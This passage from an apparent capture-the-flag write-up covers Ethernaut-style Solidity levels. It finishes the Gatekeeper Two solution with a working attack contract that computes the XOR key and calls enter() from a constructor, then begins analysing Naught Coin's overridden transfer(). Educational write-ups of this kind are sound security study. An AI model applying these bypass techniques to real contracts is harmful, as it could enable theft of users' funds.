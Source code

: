 The code to produce the `key` would be

```solidity
bytes8 key = bytes8(keccak256(abi.encodePacked(address(this)))) ^ 0xffffffffffffffff;
```

where the `Constant` above is `bytes8(keccak256(abi.encodePacked(address(this))))`.

Putting everything together, then, we create an attack contract

```solidity
contract Proxy {
  constructor(address _challengeAddress) {
    IGatekeeperTwo challenge = IGatekeeperTwo(_challengeAddress);
    bytes8 key = bytes8(keccak256(abi.encodePacked(address(this)))) ^ 0xffffffffffffffff;

    challenge.enter(key);
  }
}
```

And we call it like this


```solidity
// attack being performed at the construction of the contract
Proxy proxy = new Proxy(challengeAddress);
proxy;
```

### References

* https://docs.soliditylang.org/en/v0.8.19/contracts.html#function-modifiers
* https://docs.soliditylang.org/en/v0.8.19/assembly.html
* https://docs.soliditylang.org/en/v0.8.19/yul.html#evm-dialect
* https://ethereum.github.io/yellowpaper/paper.pdf
  * See "Contract Creation"

## 15 Naught Coin

To beat this level, we need to comply with

```solidity
instance.balanceOf(_player) == 0;
```

### Solution

We see the writer of the `NaughtCoin` contract inherits from `ERC20` and overrides the [`transfer()` function](https://github.com/OpenZeppelin/openzeppelin-contracts/blob/f8e3c375d19bd12f54222109dd0801c0e0b60dd2/contracts/token/ERC20/ERC20.sol#L113-L117)

```solidity
function transfer(address _to, uint256 _value) override public lockTokens returns(bool) {
  super.transfer(_to, _value);
}
```
